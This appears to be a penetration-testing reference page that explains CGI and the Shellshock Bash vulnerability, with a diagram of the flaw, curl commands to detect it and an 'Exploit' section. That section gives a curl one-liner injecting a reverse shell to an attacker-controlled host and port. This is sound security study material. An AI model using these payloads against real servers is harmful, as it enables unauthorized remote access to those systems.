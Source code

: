 ```yaml
---
title: CGI
---
```


# Common Gateway Interface

Common Gateway Interface (CGI) is an interface specification for web servers to execute command-line interface (CLI) programs. These programs also known as CGI scripts or simply CGIs, are commonly executed at the time a request is made and return dynamically generated HTML content.

Most servers expect CGI scripts to reside in a special directory, usually called `cgi-bin`, to handle the requests correctly and execute the program instead of returning the file content.  [^oreilly-cgi]

## Shellshock

Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) is an Arbitrary Code Execution (ACE) vulnerability that affects Linux and Unix command-line shell, aka the GNU Bourne Again Shell.

GNU Bourne Again Shell, or Bash, is an interpreter that allows users to send commands on Unix and Linux systems, typically by connecting over SSH or Telnet but it can also operate as a parser for CGI scripts.

{{<hint info>}}
In addition to CGI-based web servers, it also affects OpenSSH servers, DHCP clients, Qmail servers and restricted shells of the IBM Hardware Management Console (IBM HMC)
{{</hint>}}

The vulnerability occurs when the variables sent to the server, are passed and interpreted by Bash. This variable involves a specially crafted environment variable containing an exported function definition, followed by arbitrary commands. Bash incorrectly executes the trailing commands when it imports the function.


```
Environment variable with
function definition                          Expected command
         +                                          +
         |                                          |
+--------+--------+ +----------------+ +------------+--------------+
| env x='() { :;};| |echo vulnerable'| |bash -c "echo Real command"|
+-----------------+ +-------+--------+ +---------------------------+
                            |
                            +
            Arbitrary command executed by Bash
```

### Test

#### Reflected

```sh
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable | grep vulnerable
```

#### Blind

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

{{<details "Parameters">}}
- `-f`: fail silently on HTTP errors.
- `-s`: silent mode.
- `-H`: pass custom header(s) to server.
{{</details>}}

### Exploit

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}} 0>&1" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

## Further Reading

- [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)
- [Wikipedia - Shellshock (software bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[^oreilly-cgi]: Gundavaram, Shishir. “The Common Gateway Interface (CGI).” O’Reilly Media - Technology and Business Training, O’Reilly & Associates, Inc., https://www.oreilly.com/openbook/cgi/ch01_01.html.
